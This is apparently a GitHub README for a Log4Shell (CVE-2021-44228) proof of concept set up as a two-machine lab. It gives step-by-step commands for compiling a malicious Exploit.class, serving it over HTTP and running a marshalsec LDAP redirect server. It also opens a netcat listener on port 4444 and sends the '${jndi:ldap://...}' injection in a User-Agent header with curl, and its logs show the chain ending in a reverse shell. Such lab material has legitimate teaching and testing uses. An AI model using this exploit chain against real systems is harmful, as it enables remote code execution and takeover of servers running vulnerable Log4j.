

# Log4Shell POC (CVE-2021-44228)

This is a fork from [marcourbano's](https://github.com/marcourbano/CVE-2021-44228/) repo but with a clearer explanation on setting it up and using an ubuntu server rather than docker. It is also setup to allow a reverse shell from the labs target server.

The scope of this repository is to provide all the components needed to exploit CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/),   
and to show how to exploit it.

The ingredients needed to exploit this vulnerability are the following:
Kali Linux with 
1. An **LDAP Server** that will redirect the vulnerable application to the exploit.
2. The Java **Exploit.class** (and the corresponding Exploit.java file) that will be loaded by the Vulnerable application.
3. An **http server** from which the Vulnerable application will download the malicious Exploit.class

Ubuntu Server with:
1. A Vulnerable Java Application (found in the log4j-lab folder)

Credits:
- The **LDAP Server** has been pulled out from [mbechler](https://github.com/mbechler/marshalsec) Marshalsec repository.

Prerequisites:
- Java
- Python
- Kali Linux
- Ubuntu Server

# Kali Linux
## Prepping Java File
Edit the .java file to enter your local Kali machines IP
```
cd attacker/exploit && sudo nano Exploit.java
```
Once you have updated your java file to point to your Kali machine's IP, You need to compile it
```
sudo javac -source 1.8 -target 1.8 Exploit.java
```

## Running `LDAP Server` and `HTTP Server`
### `HTTP Server`
**1**. Move to `exploit` folder and spin up the http server by means of Python.
```
python3 -m http.server PORT
```
### `LDAP Server`
In a seperate Terminal Tab/Window:
**1.** Move to `ldap_server` folder and build the `pom.xml`


```bash
mvn clean package -DskipTests
```

**2.** Move to `target` folder and spin up the server specifying `http_server_ip` and `http_server_port`

```
java -cp ldap_server-1.0-all.jar marshalsec.jndi.LDAPRefServer "http://http_server_ip:http_server_port/#Exploit"
```
## Listen for callback
In a seperate Terminal Tab/Window:
**1.** Use the Listen back command on port 4444 to wait for a reverse shell
```
nc -lvnp 4444
```
*Note: this command runs the malicious ldap server by enforcing it to answer with the **Exploit.class** URI to every ldap query.*


# Ubuntu Server
## Running the `Vulnerable application`

Boot up a fresh Ubuntu Server VM and run the below commands to get started with installing dependencies

```
sudo apt update && sudo apt upgrade -y
```
```
sudo apt install openjdk-11-jdk -y
```
Once the server is setup, clone the git repo to the Ubuntu server and cd into the log4j-lab folder.
```
cd TargetServer/log4j-lab
```
You will need to download the log4j dependanies for the vulnerable java application to run
```
mkdir log4j && cd log4j

wget https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-core/2.14.1/log4j-core-2.14.1.jar
wget https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-api/2.14.1/log4j-api-2.14.1.jar
```

To run the Application just run 
```
./run_vulnerable_app.sh
```

## Exploitation
Once the `vulnerable_application`, the `ldap_server` and the `http_server`
 are running, send a malicious http request to the vulnerable server.
In a seperate Terminal Tab run the below,
```
curl -H 'User-Agent: ${jndi:ldap://LDAP_SERVER_IP:LDAP_PORT/exploit}' http://TARGETSERVERIP:8080/
```

The `vulnerable_application` will log the payload and will perform an ldap query

```
2025-01-12 18:48:14  [HTTP-DISPATCHER] INFO VulnerableApp - User-Agent: ${jndi:ldap://10.0.2.15:1389/exploit}
```

The `ldap_server` will answer with the Exploit.class URI

```
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.0.2.15:8443/Exploit.class
```

The `http_server` will receive a request to Exploit.class

```
Serving HTTP on 0.0.0.0 port 8443 (http://0.0.0.0:8443/) ...
172.17.0.2 - - [24/Dec/2021 19:48:14] "GET /Exploit.class HTTP/1.1" 200 -
```

Finally, In the Terminal window you had the netcat listening, you should now have reverse shell access



## References

https://www.lunasec.io/docs/blog/log4j-zero-day/   
https://github.com/mbechler/marshalsec   
 https://github.com/christophetd/log4shell-vulnerable-app

## Contributors
[@AdamJN](https://github.com/AdamJNew)

[@CrashOverflow](https://github.com/marcourbano) - Forked from his repo
